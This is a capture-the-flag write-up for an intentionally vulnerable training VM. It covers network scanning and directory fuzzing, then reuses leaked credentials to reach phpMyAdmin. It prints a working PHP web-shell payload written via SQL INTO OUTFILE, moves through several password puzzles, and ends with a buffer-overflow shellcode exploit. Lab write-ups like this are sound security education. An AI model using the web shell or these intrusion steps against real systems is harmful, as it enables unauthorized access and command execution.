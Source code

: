 ## Writeup 1

After downloading and setting up the machine on VirtualBox, There isn't any visible IP address on startup like other ISOs to connect easily on SSH.
This is not a big deal, we will use nmap to scan all devices on our network and their open ports. We will not scan for all possible addresses in our network because that will take a long time. And since we already know the range of IPs we want to search for (10.13.100.0 to 10.13.100.256), we will use nmap with that range: (Otherwise we can use arp to get IPs addresses on the network then nmap to scan for open ports):

```console
nmap 10.13.100.0/24
```
![Nmap report Image](img/nmap-scan.png "Nmap scan")

That will show us the open ports, we notice that a host is up with open ports for ssh, ftp, *http* and *https*. That mean we can access it via our navigator
after that we use dirbuster to fuzz all available directories in the website:

![Website Image](img/homepage.png "Website")

We can access to the website but still we can't do much with a simple HTML page, let's try fuzzing directories with *dirb* to see if we can find any useful directory.
```console
dirb https://10.13.100.x
```

![dirb result](img/dirb.png "dirb result")

we find a /forum + other directories we will get to later
after scanning the posts in the forum, we find a thread from lmezard where there is a bunch of logs and errors, after a quick scan we can find a leaked pw : **!q\]Ej?\*5K5cy\*AJ**
we log in with lmezard:!q\]Ej?\*5K5cy\*AJ and we don't find anything that's interesting.
Our last command with dirb found a https:://10.13.100.x/webmail/ , now let's go back to the forum and get lmezard email then log with it using the same passowrd.
we will find identifiers to the database phpmyadmin **root/Fg-'kKXBj87E:aJ$**
https:://10.13.100.x/phpmyadmin/ was also a directory found, let's log into it using those credentials:
Let's try injecting a simple PHP webshell using sql:
```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"

INTO OUTFILE '/var/www/forum/templates_c/cmd.php'
```
After some trial and error, all directories found with dirb are non-writable and will return an error except https://10.13.100.x/forum/templates_c/

Cool, now we can access the webshell https://10.13.100.x/forum/templates_c/cmd.php and try simple commands.

now if we see what's inside /home we'll see a file called LOOKATME that contains : **lmezard:G!@M6f4Eatau{sF"**
this isn't working in ssh but first when we ran Nmap we saw a port 21 open for ftp. We can connect to it from our machine.
```console
ftp 10.13.100.x
Name > lmezard
Password > G!@M6f4Eatau{sF"
```
we got in, let's try ls command, it doesn't work let's try passive mode
```console
ftp > pass
ftp > ls
150 Here comes the directory listing.
-rwxr-x--- 1 1001 1001 96 Oct 15 2015 README
-rwxr-x--- 1 1001 1001 808960 Oct 08 2015 fun
226 Directory send OK.
```

we use mget to get the files to our working directory
```
mget README fun
```

```
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

When we inspect the "fun" file, It's a c program with a bunch of comments and printfs of "Hahahaha Got you!!!\n", this is the main function:
```c
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

if we try looking for getme() functions we will only find from getme8() to getme12(), the others are missing, now we the end of password and that is:

? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; ? &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

now if we search for "return" we will find some commented returns those are the 7 characters left: h p e a I r t

If we assume the I is the first letter since it's uppercase + the last word will most likely be pwnage we will be left with the characters: h e a r t

I &nbsp; h &nbsp; e &nbsp; a &nbsp; r &nbsp; t &nbsp; p &nbsp; w &nbsp; n &nbsp; a &nbsp; g &nbsp; e

let's trying hashing the following password and let's try ssh to laurie;

sha256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

ssh laurie@192.168.188.140
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

IT WORKED!!

<h2>Bomb:</h2><br/>

Readme:
```
	laurie@BornToSecHackMe:~$ cat README
	Diffuse this bomb!
	When you have all the password use it as "thor" user with ssh.

	HINT:
	P
	 2
	 b

	o
	4

	NO SPACE IN THE PASSWORD (password is case sensitive).
```
<br/>
1) The function phase_1 compare the line with a string predefined.

<img src="./img/phase_1.png">

> Public speaking is very easy.<br/>

2) The function phase_2 expect us to write factorial 1 to 6.

<img src="./img/phase_2.png" width="40%" height="40%">

> 1 2 6 24 120 720 <br/>

3) The function phase_3 have multiple choices:

<img src="./img/phase_3.png" width="30%" height="30%"><br/>

We already know from the readme that the 2nd param should be a 'b', that left us with 3 possible answers,<br/>after defusing the bomb we found that the right answer is:

> 1 b 214<br/>

4) The function phase_4 use Fibonacci number:<br/>

<img src="./img/phase_4.png" width="300px" height="300px"><img src="./img/phase_4_1.png" width="300px" height="300px"><br/>

But the way its implemented we need to use f(n+1) not f(n), so to get Fibonacci(10)=55 we need to pass 9.

> 9 <br/>

5) This function takes an str that is exactly 6 characters long then creates a new str that's filled with the following line:

*newstr[i] = (&array.123)[(char)(*(byte *)(i + line) & 15)]*

And in the end it checks if newstr equals to "giants". array123 is an array that contains the following characters : *array123="isrveawhobpnutfg"*.
Now all we have to do is look for the index of each character in "giants" in array123 and perform the logical & operation with 0xf on that;

newstr[0] = 0x6f & 0xf = 0xf or 15 (15 here is the index of 'g' in array123;

newstr[1] = 0x70 & 0xf = 0x0 or 0 (0 here is the index of 'i' in array123;

newstr[2] = 0x65 & 0xf = 0x5 or 5 (5 here is the index of 'a' in array123;

newstr[3] = 0x6b & 0xf = 0xb or 11 (11 here is the index of 'n' in array123;

newstr[4] = 0x6d & 0xf = 0xd or 13 (13 here is the index of 't' in array123;

newstr[5] = 0x71 & 0xf = 0x1 or 1 (1 here is the index of 's' in array123;

We will end up with **newstr = "opekmq"**

<img src="./img/phase_5.png" width="40%" height="40%"><br/>

 NB: There are so many different answers that will pass this level but this is the one that works with the password at the end;

6) The Function phase_6 use the input to sort 6 nodes, and then see if they are sorted in ascending order.<br/>
![](./img/phase_6_nodes_mem.png)
```
Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekma
4 2 6 3 1 5
```
> thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135 [BUG IN THE SUBJECT](https://stackoverflow.com/c/42network/questions/664/1628?r=SearchResults&s=1%7C12.5313#1628)

We found a file named Turtle containing line like this:
```
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
```
that look like turtle logo algorithme, by changing those french word with actual instructions we got the password for zaz.
```
lt 90
fd 50
fd 1
lt 1
```
[TURTLE LINK](https://www.transum.org/Software/Logo/Level2/Default.asp?Level=3)

<img src="./img/turtle_1.png"  width="200" height="200">
<img src="./img/turtle_2.png"  width="200" height="200">
<img src="./img/turtle_3.png"  width="200" height="200">
<img src="./img/turtle_4.png"  width="200" height="200">
<img src="./img/turtle_5.png"  width="200" height="200">

MD5 Hash of SLASH = 646da671ca01bb5d84dbb5fb2238dc8e

> zaz:646da671ca01bb5d84dbb5fb2238dc8e

We found an executable file named exploit_me, so we exploit it.
the program copy av[1] into a local variable using strcpy"NON SECURE" and then prints it using puts(&var), so we have a buffer overflow.<br/>
<img src="./img/exme_disass.png" width="60%" height=60%>

Now we have to find the lenght needed to overwrite the return address.<br/>
<img src="./img/exme_payload_len.png" width="60%" height=60%>

Test the lenght:<br/>
<img src="./img/exme_payload_test.png" width="60%" height=60%>
<img src="./img/exme_payload_test2.png" width="60%" height=60%>

Now we need to inject a [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.php) and redirect to it:<br/>
<img src="./img/exme_payload_findaddr.png" width="60%" height=60%>
<img src="./img/exme_payload_shell.png" width="60%" height=60%>





